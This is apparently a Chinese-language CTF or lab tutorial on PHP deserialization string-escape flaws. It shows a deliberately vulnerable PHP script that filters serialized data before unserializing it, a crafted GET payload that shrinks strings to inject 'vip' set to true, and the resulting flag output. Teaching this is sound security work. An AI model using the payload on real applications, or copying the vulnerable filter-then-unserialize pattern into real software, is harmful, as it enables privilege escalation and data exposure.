 字符串逃逸：开发者先将对象序列化，然后将序列化后的敏感字符进行过滤或替换，最后再进行反序列化，这个时候就有可能会产生PHP反序列化字符逃逸的漏洞

1. 字符串减少

```text
O:4:"user":1:{s:8:"username";s:5:"admin";} --> O:4:"user":1:{s:8:"username";s:5:"hack";}
```

2. 字符串增多

```text
O:4:"user":1:{s:8:"username";s:5:"admin";} --> O:4:"user":1:{s:8:"username";s:5:"hacker";}
```

### 2、字符串逃逸-减少

示例代码：

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($name){
    $safe=array("flag","php");
    $name=str_replace($safe,"hk",$name);
    return $name;
}
class test{
    var $user;
    var $pass;
    var $vip = false ;
    function __construct($user,$pass){
        $this->user=$user;
    $this->pass=$pass;
    }
}
$param=$_GET['user'];
$pass=$_GET['pass'];
$param=serialize(new test($param,$pass));
$profile=unserialize(filter($param));

if ($profile->vip){
    echo file_get_contents("flag.php");
}
?>
```

构造参数：`?user=phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp&pass=;s:4:"pass";N;s:3:"vip";b:1;}`

运行结果：

```text
<!--?php

/*
 * # -*- coding: utf-8 -*-
 * # @Author: benben
 * # @link: https://ctfstu.com
 *
 * */

$flag = 'ctfstu{5c202c62-7567-4fa0-a370-134fe9d16ce7}';
-->
```
